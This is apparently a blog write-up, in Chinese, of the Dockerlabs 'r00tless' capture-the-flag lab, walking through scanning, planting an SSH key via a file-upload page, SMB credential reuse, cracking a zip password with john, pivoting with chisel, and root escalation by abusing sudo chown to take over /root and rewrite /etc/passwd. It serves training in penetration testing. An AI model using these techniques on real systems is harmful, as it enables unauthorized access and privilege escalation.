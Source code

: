 ```yaml
---
title: "Dockerlabs-r00tless"
date: 2025-03-01
categories: 
  - "dockerlabs"
tags: 
  - "dockerlabs"
  - "linux"
---
```


## Box Info

| OS | Linux |
| --- | --- |
| Difficulty | Hard |

## Nmap

```
[root@kali] /home/kali/r00tless  
❯ nmap 172.18.0.2 -sV  -A -p-
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-03-01 11:27 CST
Nmap scan report for 172.18.0.2
Host is up (0.000092s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 fa:7b:d3:96:f6:83:bb:bd:24:86:b4:a8:f6:59:c3:62 (ECDSA)
|_  256 29:49:38:ae:44:75:d8:88:2a:b6:98:55:00:bd:24:76 (ED25519)
80/tcp  open  http        Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Subir Archivo
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
MAC Address: 02:42:AC:12:00:02 (Unknown)
Device type: general purpose
Running: Linux 4.X|5.X
OS CPE: cpe:/o:linux:linux_kernel:4 cpe:/o:linux:linux_kernel:5
OS details: Linux 4.15 - 5.8
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2025-03-01T03:27:48
|_  start_date: N/A

TRACEROUTE
HOP RTT     ADDRESS
1   0.09 ms 172.18.0.2

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.77 seconds
```

## Gobuster

```
[root@kali] /home/kali/r00tless  
❯ gobuster dir -u http://172.18.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt  -x php,txt,html
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.18.0.2
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.html                (Status: 403) [Size: 275]
/index.html           (Status: 200) [Size: 2410]
/.php                 (Status: 403) [Size: 275]
/upload.php           (Status: 200) [Size: 56]
/readme.txt           (Status: 200) [Size: 78]
/.php                 (Status: 403) [Size: 275]
/.html                (Status: 403) [Size: 275]
/server-status        (Status: 403) [Size: 275]
Progress: 882240 / 882244 (100.00%)
===============================================================
Finished
===============================================================
```

## Own **passsamba**

![](./images/image-8.png)

看来文件上传到了**.ssh/**目录下，那么具体是谁的呢？

大概就是**passsamba**

![](./images/image-9.png)

因此将密钥上传上去就行了

```
[root@kali] /home/kali/r00tless  
❯ cat ~/.ssh/id_rsa.pub >> authorized_keys
```

把**authorized\_keys**上传然后**ssh**登录

![](./images/image-10.png)

## Own root-false

```
passsamba@9c7c24cafe54:~$ ls
note.txt
passsamba@9c7c24cafe54:~$ cat note.txt 

What would "sambaarribasiempre" be used for?
```

或许是某个用户的**smb**密码呢？

![](./images/image-11.png)

![](./images/image-12.png)

得到一个**secret.zip**，但是需要密码

使用**zip2john**配合**john**爆破

```
[root@kali] /home/kali/r00tless  
❯ zip2john secret.zip >> zip.hash

[root@kali] /home/kali/r00tless  
❯ john zip.hash /usr/share/wordlists/rockyou.txt  
```

![](./images/image-13.png)

```
[root@kali] /home/kali/r00tless  
❯ cat secret.txt                          
root-false:cGFzc3dvcmRiYWRzZWN1cmV1bHRyYQ==
```

**base64**解密一下：`passwordbadsecureultra`

## Own less

```
root-false@9c7c24cafe54:~$ cat message.txt 

Mario, remember this word, then the boss will get angry:

"pinguinodemarioelmejor"
```

由于存在第二个网站，这里无法直接进去

![](./images/image-14.png)

在**apache**的配置文件中发现内网**IP**

![](./images/image-15.png)

尝试**curl**访问，看来是一个表单，需要登录

![](./images/image-16.png)

这里使用**chisel**进行代理

![](./images/image-17.png)

![](./images/image-18.png)

![](./images/image-19.png)

可以直接访问了，由于之前得到了一个密码字符串

```
mario:pinguinodemarioelmejor
```

登录成功，得到一个**txt**文件

![](./images/image-20.png)

是一段很长的文本，检索下划线

```
less:Cristal_de_la_Aurora
```

## Root

```
less@9c7c24cafe54:~$ sudo -l
Matching Defaults entries for less on 9c7c24cafe54:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User less may run the following commands on 9c7c24cafe54:
    (ALL : ALL) NOPASSWD: /bin/chown
```

- [chown | GTFOBins](https://gtfobins.github.io/gtfobins/chown/)

可以直接改变**/root**目录的所有者为当前用户

![](./images/image-21.png)

如果想要提升权限，可以修改**/etc/passwd**

![](./images/image-22.png)

比如说新增一个用户，让他和**root**在同一个组里面

![](./images/image-23.png)

## Summary

`User`：上传密钥文件到**/.ssh/**目录，通过**enum4linux**泄露出用户名，**ssh**登录后拿到**smb**的登录密码，爆破压缩包获取到密码，访问内网的第二个网站，登录后拿到了最终的密码。

`Root`：使用**chown**改变**/root/**目录的所有者为当前用户，即可进入。我尝试了手动添加**authorized\_keys**，但是似乎文件拥有者不是登录对象的话，会导致**ssh**认证失败，因此写入密钥的方式就没法完成了。不过可以写入**/etc/passwd**的方式新增**root**组用户来提权。
